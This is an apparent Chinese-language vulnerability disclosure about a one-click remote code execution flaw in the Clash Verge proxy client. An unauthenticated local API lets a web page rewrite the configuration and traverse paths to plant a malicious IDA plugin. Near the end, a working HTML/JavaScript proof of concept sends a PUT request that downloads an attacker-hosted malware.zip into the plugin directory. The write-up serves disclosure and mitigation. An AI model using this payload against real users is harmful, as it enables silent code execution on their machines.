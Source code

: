 #  Clash Verge 1-Click RCE漏洞   
原创 ru1n  网络空间威胁观察   2025-05-19 18:51  
  
# 摘要  
## 危害  
  
用户使用默认配置的Clash Verge时，访问一个恶意网页即可触发本地文件写入攻击，进一步利用各种软件的插件加载机制，即可将文件写入扩展至RCE漏洞。本文以IDA的插件加载机制演示该例  
## 漏洞成因  
- Clash Verge客户端默认配置下在http://127.0.0.1:9097开启了一个RESTFul API服务，且存在CORS问题，恶意网页可以通过该服务修改Mihomo（Clash核心）的配置文件  
  
- Clash核心配置文件包含如下字段，可以从互联网下载一个ZIP文件到本地并解压，注意external-ui字段存在路径穿越检查，但是检查不完善，可以通过external-ui-name字段绕过，最终实现本地文件写入  
  
```
配置 WEB UI 目录，使用 http://{{external-controller}}/ui 访问external-ui: /path/to/ui/folder/external-ui-name: xd# 目前支持下载zip,tgz格式的压缩包external-ui-url: "https://github.com/MetaCubeX/metacubexd/archive/refs/heads/gh-pages.zip"
```  
- 实现本地文件写入后，即可通过利用常见软件的插件机制，通过部署恶意插件，实现后阶段的RCE，本文以IDA的插件加载机制为例  
  
# 技术细节  
## 获得任意文件写  
### Clash Verge默认开启未鉴权API服务  
  
下图是Clash Verge的默认配置模版，它默认在127.0.0.1:9097开启API服务，且secret字段为空，不做鉴权。并且该API服务存在CORS问题，可被恶意网页利用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rz4DMhMn0gxDqUJeQIg9omhsnQY6tvN2BUvpeTmWTQrhw6ViaI5zJ05O1KGupCKicUXQWwf1NsvzykiaITDedW16A/640?wx_fmt=png&from=appmsg "")  
  
  
浏览Mihomo代码发现，通过PUT请求http://127.0.0.1:9097/configs即可设置配置文件，Body为JSON格式，其中payload字段即为配置文件内容  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rz4DMhMn0gxDqUJeQIg9omhsnQY6tvN2nvxTyVZ9tITFTw7MPliaJW9GOsJ7GYsu3IHiab6WAYXBAu54MJyL7qXQ/640?wx_fmt=png&from=appmsg "")  
  
  
配置文件为YAML格式，并且其中的下载UI功能可被利用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rz4DMhMn0gxDqUJeQIg9omhsnQY6tvN2HRNicA6icD9ibUm2sicv3zv36iaknAfcTKz4BU5UWycqxF50ibekYoex4yNw/640?wx_fmt=png&from=appmsg "")  
  
### 绕过路径穿越检查  
  
Mihomo对external-ui字段有路径检查，不管是相对路径还是绝对路径，都会解析然后检查是否仍然处于安全目录，如下图所示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rz4DMhMn0gxDqUJeQIg9omhsnQY6tvN2EvVvYIs0vcuzLM0x8GwMJSSkSibEfQ87ib5pezb59iay5xz4OPrroRWlg/640?wx_fmt=png&from=appmsg "")  
  
Mihomo最终会将external-ui-name字段拼接到external-ui字段后，得到最终的写出路径，并且没有对写出路径做路径穿越检查，因此可以利用external-ui-name字段进行路径穿越，获得文件写能力  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rz4DMhMn0gxDqUJeQIg9omhsnQY6tvN2R6cdFHDLthiaGBiawdNpgtjA2fKJCP4goSoSvrgBfdbNiaONIIVFaATMA/640?wx_fmt=png&from=appmsg "")  
## 部署恶意IDA插件  
  
IDA会从~/.idapro/plugins目录加载IDA插件，编写一个IDA插件如下图所示，将malware_ida_plugin目录置于IDA插件目录下，即可实现加载  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rz4DMhMn0gxDqUJeQIg9omhsnQY6tvN29eYf4RSUVCCArkD4wyJl29DF17SSlBwdgGIwUMKyTUxyjFkiaZTQQSw/640?wx_fmt=png&from=appmsg "")  
## 整合POC  
  
完整POC可见GitHub: https://github.com/ddddhm1234/clash-verge-rce  
  
Windows下的POC如下，MAC / Linux需要调一下相对路径细节  
```
    <p>        2. 以IDA插件加载机制为例, 通过部署恶意IDA插件载荷, 将文件写扩展到RCE    </p>    <script>        const r = fetch("http://127.0.0.1:9097/configs", {            method: "PUT",            body: JSON.stringify({                payload: `                external-ui: test1234                external-ui-url: ${document.location.origin + '/malware.zip'}                external-ui-name: ..\\..\\Hex-Rays\\IDA Pro\\plugins\\malware`,                path: ""            })        });    </script></body></html>
```  
# 缓解建议  
- 在Clash Verge中为外部控制设置密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rz4DMhMn0gxDqUJeQIg9omhsnQY6tvN20uv2N10W4dyXxoO1ZmbsYkiaRkQfOfIhhD3abNhN0wwRSgWnuAUcavA/640?wx_fmt=png&from=appmsg "")  
# 演示  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/rz4DMhMn0gxDqUJeQIg9omhsnQY6tvN2teYKdicOxd3Tc54StZXsR10FhA4KOUicUpljwPcsIEp91xZtfwAibRR2g/640?wx_fmt=gif&from=appmsg "")  
  
